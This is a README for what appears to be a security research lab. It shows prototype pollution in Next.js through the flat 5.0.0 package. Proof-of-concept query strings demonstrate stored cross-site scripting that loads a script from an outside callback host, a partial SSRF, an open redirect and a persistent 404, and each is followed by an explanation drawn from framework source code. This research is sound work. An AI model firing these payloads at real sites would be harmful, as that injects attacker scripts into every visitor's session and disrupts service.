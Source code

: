 # Next.js Flat Prototype Pollution

A prototype pollution scenario in [Next.js](https://github.com/vercel/next.js/) when [flat:5.0.0](https://www.npmjs.com/package/flat) is used.

> Video goes here

## Setup Instructions

Install dependencies and start production server.

```sh
npm install
npm run build
npm start
```

## Gadgets

> Lot of unexplored surface. If you find anything send a pull request :)

| Name                              | Description                                        | Type               | Package                         | Completed |
| --------------------------------- | -------------------------------------------------- | ------------------ | ------------------------------- | :-------: |
| [AMP first look](#amp-first-look) | via `ampUrlPrefix` in `ampOptimizer.transformHtml` | XSS + Partial SSRF | `@ampproject/toolbox-optimizer` |     ✔     |
| [Redirect SSR](#redirect-ssr)     | via `redirect.destination` in `getServerSideProps` | Open Redirect      | `next`                          |     ✔     |
| [404 SSR](#404-ssr)               | via `notFound` in `getServerSideProps`             | Permanant 404      | `next`                          |     ✔     |
| More AMP                          |                                                    |                    |                                 |           |
| React Server Components           |                                                    |                    |                                 |           |
| Image & Font Optimization         |                                                    |                    |                                 |           |
| API & Middlewares                 |                                                    |                    |                                 |           |
| Router                            |                                                    |                    |                                 |           |
| Prisma                            |                                                    |                    |                                 |           |

## AMP first look

Cross-Site Scripting via `ampUrlPrefix` in `ampOptimizer.transformHtml` (Session-wide like broadcast due to server-side rendering).

Also a partial SSRF via `node-fetch` during AMP transform.

**Poc**

```sh
# XSS on a AMP enabled Page
/vulnerable?__proto__.ampUrlPrefix=https://xss-callback.pwnfunction.repl.co/

# XSS on a Non-AMP Page (but AMP should be enabled in atleast one other page on the site)
/vulnerable?amp=1&__proto__.amp=hybrid&__proto__.ampUrlPrefix=https://xss-callback.pwnfunction.repl.co/

# Partial SSRF - works if route `/*` does not return 404 else server hangs
/vulnerable?__proto__.ampUrlPrefix=https://URL/

```

**Cause**

Requires 2 stages to poision the server-side code with our payload because AMP check happens before the pollution in `getServerSideProps`. So we pollute in the first request and trigger in another which does a new AMP check and optimize.
Once it's poisioned any single subsequent request will trigger XSS on any session as the server-side code is poisioned via prototype pollution.

```js
/* next/server/render.tsx */
const ampState = {
  ampFirst: pageConfig.amp === true,
  hasQuery: Boolean(query.amp),
  hybrid: pageConfig.amp === "hybrid",
};
const inAmpMode = !process.browser && (0, _amp).isInAmpMode(ampState); // isInAmpMode() { return ampFirst || hybrid && hasQuery }
// ...
html = await optimizeAmp(html, renderOpts.ampOptimizerConfig);

/* next/server/optimize-amp.ts */
const optimizer = AmpOptimizer.create(config);
return optimizer.transformHtml(html, config); // config.ampUrlPrefix = 'https://xss-callback.pwnfunction.repl.co/'

/* @ampproject/toolbox-optimizer/index.js */
async transformHtml(t, e) {
    const r = await i.parse(t);
    await this.transformTree(r, e);
    return i.serialize(r);
}

/* `transformTree` eventually leads to the following */
5690: (t, e, r) => {
    // ...
    class RewriteAmpUrls {
        // ...
        transform(t, e) {
            // ...
            d.push(this._createPreload(l.attribs.src, "script")); // l.attribs.src = 'https://xss-callback.pwnfunction.repl.co/'
            // ...
        }
        // ...
    }
    t.exports = RewriteAmpUrls;
},

// <script async="" src="https://xss-callback.pwnfunction.repl.co/v0.js"></script>
```

> Note: In `next.config.js`, we skip validation `skipValidation: true`.
> This is to disable `SeparateKeyframes` (`fn 1053`) - `@ampproject/toolbox-optimizer/index.js` throws `filter on undefined` due to prototype pollution. (Lazy fix)

## Redirect SSR

**Poc**

```url
/vulnerable?__proto__.redirect.destination=https://pwnfunction.com
```

**Cause**

```js
/* next/server/render.tsx */
if ("redirect" in data && typeof data.redirect === "object") {
  checkRedirectValues(data.redirect, req, "getServerSideProps");
  data.props = {
    __N_REDIRECT: data.redirect.destination,
    __N_REDIRECT_STATUS: (0, _loadCustomRoutes).getRedirectStatus(
      data.redirect
    ),
  };
  if (typeof data.redirect.basePath !== "undefined") {
    data.props.__N_REDIRECT_BASE_PATH = data.redirect.basePath;
  }
  renderOpts.isRedirect = true;
}
```

## 404 SSR

**Poc**

```url
/vulnerable?__proto__.notFound=1
```

**Cause**

```js
/* next/server/render.tsx */
if ('notFound' in data && data.notFound) {
    if (pathname === '/404') {
        throw new Error(
            `The /404 page can not return notFound in "getStaticProps", please remove it to continue!`
        )
    }

    ;(renderOpts as any).isNotFound = true
    return null
}
```
